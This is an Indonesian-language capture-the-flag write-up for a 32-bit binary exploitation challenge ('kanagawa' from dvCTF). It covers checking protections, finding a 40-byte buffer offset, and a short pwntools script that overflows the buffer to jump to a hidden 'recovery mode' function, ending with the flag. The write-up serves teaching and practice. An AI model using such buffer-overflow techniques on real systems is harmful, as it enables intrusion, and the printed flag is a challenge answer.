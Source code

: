 Tidak banyak deskripsi hanya terdapat attachment file 32 bit-executable dibuktikan dengan :
\n
![](images.png)
\n
![](images2.png)
\n
Dari kedua pengecekan diatas ternyata 32 bit, not-striped, no-pie, no-canary, seharusnya challange pwn yang tidak begitu sulit. Dilanjutkan dengan analisis statis menggunakan Ida-pro dan begini hasilnya.
![](images3.png)

Misi kita hanyalah melakukan buffer overflow dan bisa jump ke fungsi 'recovery mode'. ya tinggal melakukan dynamic analisis dengan gdb dan filler buffer pada fgets pertama berapa, ternyata buffer yang dibutuhkan 40 char dan 4 char setelahnya akan digunakakn untuk melakukan jump ke memory dari recovery mode dan 'cat flag.txt'. Kita perlu mengambil address memory di recovery mode dan membaliknya karena ini merupakan 32-bit LSB, dengan mudah dibantu pwntools. Berikut solver yang saya gunakan.

'''from pwn import \*

elf = ELF('./kanagawa')
#r = process(elf.path)
s = remote('challs.dvc.tf',8888)

def exploit(): # s.recvuntil('Email: ') # Fill the buffer
payload = 'a' \* 40 + p32(0x0804851b)

    s.sendline(payload)
    s.interactive()

exploit()'''

flag = dvCTF{0v3rfl0w_tsun4m1}
